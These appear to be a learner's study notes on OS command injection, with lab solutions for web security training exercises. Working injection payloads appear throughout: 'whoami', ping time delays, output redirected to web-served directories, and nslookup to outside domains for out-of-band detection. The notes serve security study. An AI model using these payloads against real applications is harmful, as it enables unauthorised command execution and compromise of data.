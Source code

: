 # OS command injection

It's about injecting commands  on the server which is running an application and fully compromise the data as well as application.

If a application usages the following request to view the stock 

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

In the background something like  the following code might be running

```
stockreport.pl 381 29
```

As there is no defence again OS command injection attacker could run 


```
& echo aiwefwlguh &
```

which may give the following error 

```
Error - productID was not provided
aiwefwlguh
29: command not found
```


## Useful commands  
| Purpose of Command        | Linux        | Windows         |  
|---------------------------|--------------|-----------------|  
| Name of current user      | `whoami`     | `whoami`        |  
| Operating system          | `uname -a`   | `ver`           |  
| Network configuration     | `ifconfig`   | `ipconfig /all` |  
| Network connections       | `netstat -an`| `netstat -an`   |  
| Running processes         | `ps -ef`     | `tasklist`      |  
 



## Blind OS command injection vulnerabilities

Most of the instances are based on blind OS command injection which means, there is no response return from the command within it's `HTTP` response. 


Let's say and feedback application is being using where email is being sent using mail command.

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the mail command is not returned on the application's responses. 

**Detecting blind OS command injection using time delays**

We can use time delay to check if os command is being executated or not, One of the best method is to use `ping` command as it will let us specify the number of ICMP packets to sent.

```
& ping -c 10 127.0.0.1 &
``` 
This command causes the application to ping its loopback network adapter for 10 seconds. 

## Exploiting blind OS command injection by redirecting output

If an application is serving files from `/var/www/static` we can redirect the output of the command to the static directory 

```
& whoami /var/www/static/0xtheM7.txt &
```


## Exploiting blind OS command injection using out-of-band (OAST) techniques

We can inject command that will tirgger an out of bound network interaction 

```
& nslookup himansu.com.np &
```

```
& nslookup 0xthem7.xyz &
```

# Labs
## Lab: OS command injection, simple case

Check the stock and send the following request 
```
POST / product / stock HTTP / 2
Host: 0 a240078040afaa68551a563009200e3.web - security - academy.net
Cookie: session = QVkvVxREjzeXTb4B1zF470CS39mKcuhx
User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 138.0) Gecko / 20100101 Firefox / 138.0
Accept: *
/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a240078040afaa68551a563009200e3.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a240078040afaa68551a563009200e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=2&storeId=1;whoami
```

## Lab: Blind OS command injection with time delays

Payload used to solve the lab 

```
email=x||ping+-c+10+127.0.0.1||
```

Assuming this is injected into a parameter (`email`) in a backend system that uses it unsafely like:

```
somecommand --email=$email
```

Email is being controlled by attacker as we are filling the form


```
email=x||ping+-c+10+127.0.0.1||
```

It get's split in 

`x` → just a placeholder or dummy value

`||` → logical OR in the shell

`ping` -c 10 127.0.0.1 → ping localhost 10 times

`||` → another OR (used to chain commands or ensure execution)



As `email=x` is going to fail ping command will be triggered. 

You can also run on your terminal 

```
0xtheM7 || whoami
```

```
echo 0xtheM7 || whomami
```

The first command will run `whoami` as there is no command such as `0xtheM7` or Logical OR will run `whoami` command but in case of second on we wil be runngin `echo` command 



## Lab: Blind OS command injection with output redirection

Payload used to solve the lab 

```
csrf=2g6DRob8aEXHozDiwXDVj2UERt46YtmP&name=Coolcool&email=x||whoami+>+/var/www/images/0xtheM7.txt||&subject=cool&message=cool
```

The we fetched the output over 

https://YOURINSTANCE//image?filename=0xtheM7.txt
